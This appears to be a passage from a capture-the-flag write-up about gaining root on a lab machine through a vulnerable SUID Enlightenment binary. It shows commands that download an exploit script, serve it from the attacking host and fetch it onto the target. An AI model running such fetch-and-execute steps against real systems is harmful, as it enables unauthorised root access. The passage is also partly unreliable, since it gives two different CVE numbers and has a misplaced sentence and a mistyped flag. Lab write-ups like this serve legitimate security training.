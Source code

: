 *The script reveals that several SUID binaries are present, including `enlightenment_sys`, which is vulnerable to **CVE-2022-37796**.*

> [!NOTE]
> 
> **SUID** bit set allows to run with the privileges of the file owner, which in this case is root. It is a lightweight and visually appealing desktop environment that provides a graphical user interface for Linux systems.

*We check the version for potential vulnerabilities.*

```console
larissa@boardlight:~$ enlightenment --version
[...]
Version: 0.23.1
[...]
```

*The CVE-2022-37796 describes a flaw in `enlightenment_sys` in `Enlightenment` versions before `0.25.4`*

> [!NOTE]
> 
> This vulnerability allows local users to gain **elevated privileges** because the binary is **SUID** and owned as the **root user**, and the system library function mishandles path names that begin with a /dev/.. substring

*We download the exploit script for **CVE-2022-37796** on our attacking machine.*

```console
--------------------------------------------------------------------------------------------------------------------------
								Shell - Attacking machine

root@kali~# wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh - O exploitPrivEsc.sh
exploit.sh                        100%[=============================================================>]

root@kali~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.11 - - [09/Jan/2025 05:56:17] "GET /exploitPrivEsc.sh HTTP/1.1" 200 -
```

*On the target machine, we fetch and run the exploit:*

```console
--------------------------------------------------------------------------------------------------------------------------
								Shell - Target machine


larissa@boardlight:/tmp$ wget http://10.10.14.52:8000/exploitPrivEsc.sh
exploitPrivEsc.sh                 100%[=============================================================>]

--------------------------------------------------------------------------------------------------------------------------
```
